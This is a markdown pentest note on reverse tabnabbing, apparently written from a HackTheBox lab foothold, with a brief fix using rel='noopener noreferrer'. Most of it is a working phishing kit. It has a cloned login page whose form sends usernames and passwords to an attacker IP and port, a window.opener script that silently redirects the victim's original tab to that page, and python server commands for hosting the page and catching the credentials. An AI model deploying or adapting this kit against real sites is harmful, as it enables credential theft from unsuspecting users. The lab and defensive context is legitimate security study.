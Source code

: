 # Tab napping

## More info:  
https://owasp.org/www-community/attacks/Reverse_Tabnabbing  
https://hackerone.com/reports/179568


## Desc

When you open a link in a new tab ( ```target="_blank"``` ), the page that opens in a new tab can access the initial tab and change it's location using the window.opener property. 

## Tab napping (manual) 

You need 2 html forms.

1. A fished login form 
2. A form with redirect code in for the browser. 

## Example (hackthebox machine foothold used to test) (developers htb, hard machine)

1. Spoofed login.html (make sure to update any links so they resolve the content and looks as the original)(POST chnaged to GET request)

```
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">
    <link rel="icon" href="http://developer.htb/img/favicon.ico">
    <link rel="stylesheet" href="http://developer.htb/static/css/jquery.toasts.css">
    <script src="http://developer.htb/static/js/all.min.js"></script>
    <script src="http://developer.htb/static/js/jquery-3.2.1.min.js"></script>
    <title>Login | Developer.HTB</title>

    <!-- Bootstrap core CSS -->
    <link rel="stylesheet" href="/static/css/bootstrap.min.css">

    <!-- Custom styles for this template -->
    <link href="http://developer.htb/static/css/signin.css" rel="stylesheet">
  </head>

  <body class="text-center">
 
    <form class="form-signin" action="//10.10.14.148:8074" method="get">
        <input type="hidden" name="csrfmiddlewaretoken" value="DNASuXuPkU07d5eNEABgOZsAzDPk3tS3BYJrWmTahQdvAUIYHsStaSpBQvSVTGMs">
      <img class="mb-4" src="http://developer.htb/static/img/logo.png" alt="" width="72" height="72">
      <h1 class="h3 mb-3 font-weight-normal">Welcome back!</h1>
      <label for="uname" class="sr-only">User Name</label>
      <input type="text" id="id_login" name="login" placeholder="Username" class="form-control" required autofocus>
      <label for="password" class="sr-only">Password</label>
      <input type="password" id="id_password" name="password" placeholder="Password" class="form-control" required>

      
      <button id="loginbtn" class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
          <a href="http://developer.htb/accounts/password/reset/" class="auth-link">Forgot password?</a>
        <div class="text-center mt-4 font-weight-light"> Don't have an account? <a href="/accounts/signup/" >Click here!</a>      
      <p class="mt-5 mb-3 text-muted">&copy; Developer.HTB 2021</p>
    </form>

<script src="http://developer.htb/static/js/jquery.toast.js"></script> 
<script>


</script>
  </body>
</html>

```

2. Redirect index.html (replace your IP:PORT)

```
<html>
<script>
if (window.opener) window.opener.parent.location.replace('//IP:PORT/login.html');
if (window.parent != window) window.parent.location.replace('//IP:PORT/login.html');
</script>
</html>
```

3. Setup two python server's to host your files to be served. 

```
python3 -m http.server 8088     # to host the files
python3 -m http.server 8074     # to get the login details
```

Now you can send your exploit and await the login details. 
Note I changed the POST to a GET request for ease. 

```
<form class="form-signin" action="//10.10.14.148:8074" method="get">
```
## Remedy the issue. 

The fix is very simple by adding ```noopenerand noreferrertags``` to the href elements on the page:
```rel='noopener noreferrer'```

```
<a rel='noopener noreferrer' href="http://google.com/" target="_blank">This is a link to a bad webpage.</a>
```
